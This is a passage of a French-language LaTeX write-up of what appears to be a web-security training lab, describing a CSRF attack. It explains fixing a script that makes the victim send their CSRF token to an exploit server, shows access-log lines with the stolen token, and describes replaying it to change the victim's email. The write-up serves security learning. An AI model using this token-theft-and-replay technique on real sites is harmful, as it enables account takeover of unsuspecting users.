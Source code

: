 \documentclass[11pt,a4paper]{article}
\begin{document}

Le script doit s'exécuter après l'existence d'un \texttt{body}, et ajouter au
\texttt{documentElement}. Une première version, sans \texttt{<body>} et
appelant \texttt{document.body.appendChild(...)}, s'exécutait pendant l'analyse
de l'en-tête : \texttt{document.body} valait \texttt{null}, le formulaire
n'était jamais construit et le POST ne partait pas (la page restait blanche).
Envelopper le script dans \texttt{<body>} et ajouter à
\texttt{document.documentElement} corrige cela ; c'était la raison pour
laquelle la victime rebouclait plusieurs fois sur \texttt{/exploit?csrf=...}
sans que l'e-mail ne change jamais.

Après soumission du bouton, le champ e-mail contient simplement
\texttt{foo@bar.com} ; le champ précieux est le jeton CSRF qui l'accompagne.


\subsection{Livrer à la victime et capturer le jeton}
Cliquer sur "Deliver exploit to victim" joue la chaîne contre
l'utilisateur simulé. Le journal d'accès du serveur d'exploit montre la victime
récupérant \texttt{/exploit/}, puis renvoyant le jeton dans la chaîne de
requête :

\begin{lstlisting}
10.0.4.213 "GET /exploit/"                                             200 (Victim)
10.0.4.213 "GET /exploit?email=foo%40bar.com&csrf=WZtQLUZaMfTg0A5HawYiQiznBFJsejcX" 200 (Victim)
\end{lstlisting}

Le jeton CSRF de la victime (\texttt{WZtQ...}, différent du mien,
\texttt{TWOX...}) a été exfiltré, et l'étape 2 le rejoue aussitôt en POST pour
changer l'adresse e-mail.


\subsection{Résolution du lab}
L'adresse de la victime ayant été changée avec son propre jeton volé, le lab
passe à l'état résolu.

\end{document}
